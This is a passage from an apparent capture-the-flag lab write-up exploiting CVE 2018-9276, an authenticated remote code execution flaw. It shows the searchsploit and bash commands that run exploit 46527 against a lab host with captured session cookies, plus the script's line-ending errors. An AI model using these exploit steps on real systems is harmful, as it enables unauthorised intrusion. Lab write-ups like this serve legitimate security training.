 It’s vulnerable to an authenticated remote code execution \(RCE\) vulnerability.

For the exploitation phase, we’ll do this box in two ways. In the first way, we’ll use the script to exploit the box. In the second way, we’ll exploit the same vulnerability, except we’ll do it manually.

## Exploitation \#1: CVE 2018–9276 Exploit Script <a id="89ed"></a>

Copy the script to the current directory.

```text
searchsploit -m 46527
```

Run the script to see what parameters it requires to run.

![](../images/max/1111/1*VOgnFp3R0u2oKRV0kARysw.png)

We need to first log in and grab our session cookies. We can do that by intercepting the request in Burp.

```text
_ga=GA1.4.2092334210.1582875922; _gid=GA1.4.597734317.1582875922; OCTOPUS1813713946=ezI0OTUwM0JELUYxMzYtNDE4RS05QTU5LUIyQUI2OUU0RjZDNn0%3D; _gat=1
```

Then run the script with the above cookies.

```text
bash 46527.sh -u http://10.10.10.152 -c "_ga=GA1.4.2092334210.1582875922; _gid=GA1.4.597734317.1582875922; OCTOPUS1813713946=ezI0OTUwM0JELUYxMzYtNDE4RS05QTU5LUIyQUI2OUU0RjZDNn0%3D; _gat=1"
```

We get syntax errors.

```text
46527.sh: line 16: $'\r': command not found
46527.sh: line 17: syntax error near unexpected token `$'\r''
'6527.sh: line 17: `usage()
```

The exploit seems to have not copied properly from searchsploit. So instead, manually copy the exploit rom [exploitdb](https://www.exploit-db.com/exploits/46527) and save it in a file _exploit.sh_. Then rerun the exploit.
